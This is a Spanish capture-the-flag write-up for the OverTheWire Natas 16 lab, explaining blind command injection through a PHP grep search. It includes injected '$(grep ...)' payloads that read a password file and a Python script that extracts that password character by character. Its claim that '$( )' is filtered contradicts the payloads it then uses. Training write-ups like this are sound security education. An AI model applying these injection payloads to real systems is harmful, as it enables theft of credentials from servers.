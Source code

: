# Natas 16 – OverTheWire

La página tiene un formulario con un campo de texto que pide una palabra para buscar en un diccionario (needle).
El código PHP hace algo como esto:

```php
$key = $_GET['needle'];
passthru("grep -i $key dictionary.txt");
```

Hasta aquí parece idéntico a Natas 9 o 10, pero hay una diferencia crucial:

- En este caso, filtran caracteres especiales (;, |, &, $( ), etc.)
- Además, no muestran errores ni la salida del comando de forma visible.

Así que el reto consiste en inyectar comandos sin ver la salida, deduciendo si una condición fue verdadera o falsa.

## Analisis

Como siempre la contraseña está en `/etc/natas_webpass/natas17`

Y queremos leer ese archivo, pero sin poder usar `cat` directamente.
La clave está en que **`grep` devuelve salida solo si encuentra coincidencias, y eso sí se refleja en la respuesta HTML.**

Por tanto, podemos usar `grep` para probar letras una por una en la contraseña.

### Blind Command Injection (basada en contenido)

Si ejecutamos:

```url
grep -i a dictionary.txt
```

devuelve líneas con la letra “a”.

Pero si inyectamos algo como:

```url
grep -i a /etc/natas_webpass/natas17
```

si hay una “a” en la contraseña, el comando produce salida (visible); si no, no.

Así podemos deducir el contenido del archivo carácter a carácter.

Sabiendo esto vamos a inyectar una lógica benigna en el apartado de usuario:

```url
test$(grep a /etc/natas_webpass/natas17)
```

Si la respuesta cambia (más o menos texto), ¡la inyección funciona!

Queremos saber si la contraseña empieza por cierta cadena.
Por ejemplo:

```url
$(grep ^a /etc/natas_webpass/natas17)
```

`^a` → coincide con contraseñas que comienzan por “a”.

Si hay coincidencia, el `grep` devuelve algo → la respuesta del servidor cambia.

Como en el ejericio anterior vamos a automatizar este proceso con un script de python.

```python
import requests
from string import ascii_letters, digits

chars = ascii_letters + digits
url = "http://natas16.natas.labs.overthewire.org"
auth = ('natas16', '<ContreñaNatas16>')
found = ""

while True:
    for c in chars:
        payload = f'$(grep ^{found + c} /etc/natas_webpass/natas17)'
        r = requests.get(url, auth=auth, params={'needle': payload})
        if "dictionary" not in r.text:  
            found += c
            print(f"[+] Encontrada: {found}")
            break
    else:
        break

print("Contraseña:", found)
```

La idea es que si grep encuentra coincidencia, su salida sustituye el contenido de `needle`, cambiando la respuesta de la web.

Con esto tenemos la contreseña

![Contraseña](Assets/Natas16/Contraseña.png)

### Concepto: Blind Command Injection

Una **inyección de comandos ciega ocurre cuando puedes ejecutar comandos, pero no ves su salida.**
Debes inferir resultados por:

- Diferencias en la respuesta (como aquí con `grep`).
- Diferencias en el tiempo (`sleep` / `ping`).
- Diferencias en errores o estados HTTP.

## Conclusion

- Las inyecciones ciegas pueden ser tan peligrosas como las visibles.
- Aunque no veas la salida, puedes reconstruir datos sensibles con creatividad.
- Siempre valida y escapa correctamente la entrada antes de pasarla a comandos del sistema.
